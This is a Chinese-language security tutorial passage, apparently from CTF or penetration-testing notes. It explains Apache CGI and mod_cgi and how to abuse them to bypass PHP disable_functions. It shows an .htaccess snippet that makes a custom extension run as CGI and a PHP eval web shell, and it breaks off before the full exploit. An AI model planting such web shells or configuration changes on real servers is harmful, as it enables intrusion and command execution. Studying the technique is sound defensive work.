 原理简述：

早期的Web服务器，只能响应浏览器发来的HTTP静态资源的请求，并将存储在服务器中的静态资源返回给浏览器。随着Web技术的发展，逐渐出现了动态技术，但是Web服务器并不能够直接运行动态脚本，为了解决Web服务器与外部应用程序（CGI程序）之间数据互通，于是出现了CGI（Common Gateway Interface）通用网关接口。简单理解，可以认为CGI是Web服务器和运行在其上的应用程序进行“交流”的一种约定。

当遇到动态脚本请求时，Web服务器主进程就会Fork创建出一个新的进程来启动CGI程序，运行外部C程序或Perl、PHP脚本等，也就是将动态脚本交给CGI程序来处理。启动CGI程序需要一个过程，如读取配置文件、加载扩展等。当CGI程序启动后会去解析动态脚本，然后将结果返回给Web服务器，最后由Web服务器将结果返回给客户端，之前Fork出来的进程也随之关闭。这样，每次用户请求动态脚本，Web服务器都要重新Fork创建一个新进程去启动CGI程序，由CGI程序来处理动态脚本，处理完成后进程随之关闭，其效率是非常低下的。

而对于Mod CGI，Web服务器可以内置Perl解释器或PHP解释器。 也就是说将这些解释器做成模块的方式，Web服务器会在启动的时候就启动这些解释器。 当有新的动态请求进来时，Web服务器就是自己解析这些动态脚本，省得重新Fork一个进程，效率提高了。

任何具有MIME类型application/x-httpd-cgi或者被cgi-script处理器处理的文件都将被作为CGI脚本对待并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为CGI脚本，一种是文件具有已由AddType指令定义的扩展名，另一种是文件位于ScriptAlias目录中。

Apache在配置开启CGI后可以用ScriptAlias指令指定一个目录，指定的目录下面便可以存放可执行的CGI程序。若是想临时允许一个目录可以执行CGI程序并且使得服务器将自定义的后缀解析为CGI程序执行，则可以在目的目录下使用htaccess文件进行配置，如下：

```php
Options +ExecCGI
AddHandler cgi-script .xxx
```

这样便会将当前目录下的所有的.xxx文件当做CGI程序执行了。

由于CGI程序可以执行命令，那我们可以利用CGI来执行系统命令绕过disable_functions。

**利用方法：**

源码

```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```

执行phpinfo发现设置了disable_functions：

![image-20211126225950685](image/命令执行/image-20211126225950685.png)

并且发现目标主机Apache开启了CGI，Web目录下有写入的权限。
